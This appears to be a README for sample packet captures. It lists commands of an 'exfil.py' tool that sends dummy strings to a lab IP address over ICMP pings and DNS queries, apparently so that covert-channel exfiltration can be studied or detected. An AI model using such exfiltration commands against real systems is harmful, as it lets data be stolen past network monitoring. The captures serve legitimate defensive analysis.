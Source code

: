 Exfil PCAPs
===========

ping_data
---------
The pcap file ping_data.pcap contains the packets associated with the following five runs of exfil.py

$ sudo python ./exfil.py -d AAAABBBBCCCCDDDDEEEE -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
AAAABBBBCCCCDDDDEEEE
$ sudo python ./exfil.py -d FFFFGGGGHHHHIIIIJJJJ -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
FFFFGGGGHHHHIIIIJJJJ
$ sudo python ./exfil.py -d KKKKLLLLMMMMNNNNOOOO -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
KKKKLLLLMMMMNNNNOOOO
$ sudo python ./exfil.py -d PPPPQQQQRRRRSSSSTTTT -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
PPPPQQQQRRRRSSSSTTTT
$ sudo python ./exfil.py -d UUUUVVVVWWWWXXXXYYYY -s 10.230.229.91 ping_data
Sending data to 10.230.229.91 via ICMP.
Data Sent:
UUUUVVVVWWWWXXXXYYYY


dns_lookup
----------
The pcap file dns_lookup.pcap contains the packets associated with the following five runs of exfil.py

$ sudo python ./exfil.py -d AAAABBBBCCCCDDDDEEEE -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
AAAABBBBCCCCDDDDEEEE
$ sudo python ./exfil.py -d FFFFGGGGHHHHIIIIJJJJ -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
FFFFGGGGHHHHIIIIJJJJ
$ sudo python ./exfil.py -d KKKKLLLLMMMMNNNNOOOO -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
KKKKLLLLMMMMNNNNOOOO
$ sudo python ./exfil.py -d PPPPQQQQRRRRSSSSTTTT -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
PPPPQQQQRRRRSSSSTTTT
$ sudo python ./exfil.py -d UUUUVVVVWWWWXXXXYYYY -s 10.230.229.91 dns_lookup
Sending data via DNS to 10.230.229.91 on port 53.
Data Sent:
UUUUVVVVWWWWXXXXYYYY
